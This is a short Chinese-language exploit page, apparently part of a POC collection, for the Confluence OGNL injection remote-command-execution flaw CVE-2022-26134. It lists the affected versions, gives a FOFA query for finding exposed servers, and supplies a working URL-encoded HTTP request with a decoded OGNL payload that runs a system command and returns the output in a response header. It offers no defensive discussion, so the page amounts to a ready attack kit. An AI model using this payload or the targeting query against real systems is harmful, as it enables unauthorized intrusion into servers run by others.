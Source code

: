 # Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）

## 利用条件：
- Confluence Server and Data Center >= 1.3.0、< 7.4.17、 < 7.13.7、 < 7.14.3、< 7.15.2、< 7.16.4、< 7.17.4、< 7.18.1

## 资产收集：
  fofa:`app="ATLASSIAN-Confluence"`

#### POC
```shell
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```
![](img/poc.png)
OGNL表达式为：
`${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}`